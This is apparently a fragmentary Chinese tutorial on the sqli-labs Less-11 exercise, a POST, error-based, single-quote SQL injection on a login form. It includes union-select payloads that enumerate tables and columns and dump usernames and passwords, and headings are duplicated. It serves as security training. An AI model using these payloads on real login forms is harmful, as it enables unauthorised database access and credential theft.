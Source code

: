 

### 2.6、第六步：查字段

---


---


---


## 二、Less11（POST-Error based - Single Quotes String）

> 
<h3>2.1、简介：（错误-单引号）</h3>
请求方法：POST
方法：报错回显
分类：看我们是否找到账号名
在代码中，账号输入框和密码输入框是连着的
在第一个代码框最后注释掉后面内容后，就不需要输入密码了


> 
<h4>第一步：判断注入点</h4>
输入了一个单引号显示错误，说明可能存在注入点，符号可能为单引号


<hr/>

<h4>第二步：分析注入方法</h4>
点击post date输入
uname=admin' and 1=1#
（或者在第一个框输入admin' and 1=1#  ）
字符型注入

<hr/>
 

<h4>第三步：常规的获取数据步骤</h4>
执行其他读取修改数据等操作（常规操作了）
例如（报错回显）
admin' and 1=2 union select 1,database()# 


猜显示位数，获取数据库，获取表名，获取列名，获取数据
<blockquote>
①uname=admin' and 1=2 union select 1,2 #
②uname=admin' and 1=2 union select 1,database() #
③uname=admin' and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
④uname=admin' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'#
⑤uname=admin' and 1=2 union select 1,group_concat(username,password) from users #


#### 第二步：分析注入方法

---